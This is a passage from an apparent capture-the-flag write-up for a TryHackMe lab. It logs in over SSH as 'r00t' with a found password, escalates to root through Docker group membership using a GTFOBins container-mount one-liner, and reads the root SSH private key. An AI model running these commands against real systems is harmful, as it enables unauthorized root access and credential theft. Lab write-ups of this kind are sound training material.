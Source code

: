 ### 5. SSH as r00t
- Attempted SSH:
  ```bash
  ssh r00t@10.10.223.16
  ```
- Password: `n100906`
- Success: Logged in as `r00t` (not `root`—a common CTF trick).
- Checked privileges:
  ```bash
  sudo -l
  ```
- Output: No `sudo` privileges.
- Checked groups:
  ```bash
  id
  ```
- Output:
  ```
  uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
  ```
- Noticed `r00t` is in the `docker` group.

### 6. Escalate to Root
- Visited [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) for Docker privilege escalation.[](https://titus74.com/thm-writeup-ultratech/)
- Found:
  ```bash
  docker run -v /:/mnt --rm -it bash chroot /mnt sh
  ```
- **Explanation**: The `r00t` user’s Docker group membership allows running Docker containers with root privileges. Mounting the host filesystem (`/`) to `/mnt` and using `chroot` grants a root shell.
- Checked available images:
  ```bash
  docker images
  ```
- Output: `bash` image available.
- Ran the command:
  ```bash
  docker run -v /:/mnt --rm -it bash chroot /mnt sh
  ```
- Got a root shell:
  ```bash
  # id
  uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
  ```

### 7. Retrieve SSH Key
- Navigated to:
  ```bash
  cd /root/.ssh
  cat id_rsa
  ```
- The private key started with `MIIEogIBA` (first 9 characters).

---
